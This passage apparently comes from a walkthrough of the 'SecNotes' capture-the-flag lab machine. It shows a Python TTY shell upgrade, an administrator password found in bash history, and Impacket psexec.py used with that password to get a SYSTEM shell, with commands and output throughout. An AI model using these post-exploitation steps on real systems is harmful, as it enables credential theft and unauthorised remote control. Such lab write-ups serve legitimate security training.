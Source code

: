 - Perform TTY escape Shell #stty 
```
python -c 'import pty; pty.spawn("/bin/bash")'
root@SECNOTES:~# whoami
whoami
root
```

- `history` command shows admin creds `administrator:u6!4ZwgwOM#^OBf#Nwnh`
```
root@SECNOTES:~# history
history
    1  cd /mnt/c/
    2  ls
    3  cd Users/
    4  cd /
    5  cd ~
    6  ls
    7  pwd
    8  mkdir filesystem
    9  mount //127.0.0.1/c$ filesystem/
   10  sudo apt install cifs-utils
   11  mount //127.0.0.1/c$ filesystem/
   12  mount //127.0.0.1/c$ filesystem/ -o user=administrator
   13  cat /proc/filesystems
   14  sudo modprobe cifs
   15  smbclient
   16  apt install smbclient
   17  smbclient
   18  smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
   19  > .bash_history 
   20  less .bash_history
   21  root@SECNOTES:~# whoami
```

- Get admin shell using `psexec.py` or `wmiexec.py` or `smbexec.py`
```
┌──(root㉿kali)-[~/Downloads]
└─# psexec.py administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.10.10.97
/usr/local/bin/psexec.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.13.0.dev0+20240916.171021.65b774de', 'psexec.py')
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.10.97.....
[*] Found writable share ADMIN$
[*] Uploading file WMRAzUkE.exe
[*] Opening SVCManager on 10.10.10.97.....
[*] Creating service QChF on 10.10.10.97.....
[*] Starting service QChF.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32> whoami
nt authority\system
```
